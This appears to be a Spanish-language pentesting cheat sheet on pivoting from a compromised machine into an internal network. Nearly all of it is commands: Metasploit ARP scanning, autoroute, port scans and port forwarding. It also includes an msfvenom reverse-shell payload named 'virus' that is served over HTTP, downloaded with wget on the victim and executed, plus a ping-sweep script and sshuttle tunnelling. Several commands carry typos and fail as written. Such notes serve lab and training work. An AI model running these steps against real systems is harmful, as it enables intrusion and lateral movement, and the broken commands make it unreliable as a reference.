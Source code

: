 Una vez ganemos acceso a una máquina víctima, haremos un ipconfig para ver si es que tiene otra interfaz de red, de ser el caso, deberemos de pivotear a las otras maquinas (Es necesario ser root).

## Windows

```bash
meterpreter > ipconfig
meterpreter > background

sessions -l

use windows/gather/arp_scanner # localizar IPs de red interna
set SESSION 1
set RHOSTS 10.10.10.4/24
run

use use multi/manage/autoroute # Canalizar trafico hacia máquina atacante
set SESSION 1
run

use scanner/portscan/tcp # Escaner de puertos tipo NMAP
set RHOSTS 10.10.10.5 # IP encontrada
run

use post/windows/manage/portproxy # Acceder a puertos de máquina victima
set CONNECT_ADDRESS 10.10.10.5
set CONNECT_PORT 80
set LOCAL_ADDRESS 0.0.0.0
set LOCAL_PORT 5000
set SESSION 1
run
```

En el navegador accederemos de la siguiente forma: 

``` http
ipVictimaIntermedia:5000
```

## Linux

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=nuestraIP LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
pyhton3 -m http.server 80

wget nuestraIP/virus # Máquina intermedia

msfconsole
use /multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST nuestraIP
run

cmod +x virus # Máquina intermedia
./virus

meterpreter > ifconfig
meterpreter > background

sessions -l
use use multi/manage/autoroute
set SESSION 2
run
```

Script para ver maquinas en la red interna ya que metasploit falla:

```bash
#!bin/bash

for i in {1..255}; do
	timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
	if [ $? -eq 0 ]; then
		echo "El host 10.10.10.$i está activo"
	fi
done
```

```bash
sessions -i 2
meterpreter > shell
wget IPintermedia/scanner.sh # pyhton3 -m http.server 80
chmod +x scanner.sh
./scanner.sh

meterpreter > backgound
use scanner/portscan/tcp
set RHOSTS 10.10.10.8
run

sessions -i 2
meterpreter > portfwd add -l 222 -p 22 -r 10.10.10.8
meterpreter > portfwd add -l 5000 -p 631 -r 10.10.10.8

ssh dimitri@127.0.0.1 -p 222
http://127.0.0.1:5000
```

## SSH

Para esto es necesario que la máquina intermedia sea linux.

```bash
apt install sshuttle

sshutle -r user@maquinaIntermedia 10.10.10.0/24

http://10.10.10.11
```
